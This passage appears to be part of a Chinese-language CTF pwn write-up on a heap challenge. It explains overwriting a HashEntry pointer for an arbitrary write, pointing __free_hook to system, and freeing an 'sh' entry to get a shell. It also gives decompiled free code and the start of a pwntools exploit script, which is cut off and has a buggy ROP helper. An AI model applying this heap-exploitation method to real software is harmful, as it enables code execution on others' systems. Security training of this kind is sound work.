 都没有可以利用的地址。



### 正确的思路

后来发现自己白白绕了一大圈，既然已经可以改掉 HashEntry 结构体的内容，那么直接改掉结构体中HashCode的值，然后调用editHashCode就可以修改任意地址的值了。直接把free_hook改成 system 函数的地址。

```C
/* deleteHashEntry 中的free代码 */  
if ( idx >= 0 && idx <= 99999 && ptr[idx] )
  {
    free(ptr[idx]->entryName);
    free(ptr[idx]->HashCode);
    free(ptr[idx]);
    ptr[idx] = 0LL;
    result = 0LL;
  }
```

然后新建一个 HashEntry，把 entryName 设置成"sh"， 然后 free 这个 HashEntry 就能 getshell 了。



### 利用代码

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
""" dddong / AAA """

from pwn import *
import sys, os, re
context(arch='amd64', os='linux', log_level='debug')
context(terminal=['gnome-terminal', '-x', 'bash', '-c'])

def __get_base(p, _path):
    _vmmap = open('/proc/%d/maps' % p.proc.pid).read()
    _regex = '^.* r-xp .* {}$'.format(_path)
    _line = [_ for _ in _vmmap.split('\n') if re.match(_regex, _)][0]
    return int(_line.split('-')[0], 16)

def gen_rop(func_addr, args):
    """
    automate generate rop function
    _gadgets array contains gadgets address for 0,1,2,... args
    """
    _gadgets = []
    rop = ""
    rop += p32(func_addr)
    if len(args) > 1:
        rop += _gadgets[len(args)]
        for arg in args:
            rop += p32(args)
    return rop


_program = 'pwn2'
_pwn_remote = 0
_debug = int(sys.argv[1]) if len(sys.argv) > 1 else 0

elf = ELF('./' + _program)

if _pwn_remote == 0:
    os.environ['LD_PRELOAD'] = ''
    libc = ELF('./libc.so.6')
```